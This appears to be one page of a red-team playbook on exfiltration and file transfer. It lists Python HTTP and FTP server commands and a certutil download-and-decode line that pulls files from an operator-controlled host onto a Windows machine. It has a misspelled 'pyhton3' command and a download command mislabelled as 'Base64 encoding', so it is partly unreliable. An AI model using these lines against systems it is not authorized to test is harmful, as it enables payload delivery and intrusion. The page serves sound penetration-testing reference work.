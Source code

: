 # 7.2 Exfiltration

## File transfer

### Python SimpleHTTPServer

```c
python -m SimpleHTTPServer <local_port>
```

### Python3 HTTP Server

```c
pyhton3 -m http.server <local_port>
```

### Simple FTP Server

```c
python -m pyftpdlib -p 21 --write
```

### Certutil

#### Base64 encoding

```c
certutil.exe -urlcache -split -f "http://<local_ip>/<file>" <file>
```

#### Base64 decoding

```c
certutil.exe -decode <file>.txt <file>.dll
```

### Previous

- [7 Actions-on-Objective](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7-Actions-on-Objective.md)
- [7.1 Post Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/7-Actions-on-Objective/7.1-Post-Exploitation.md)
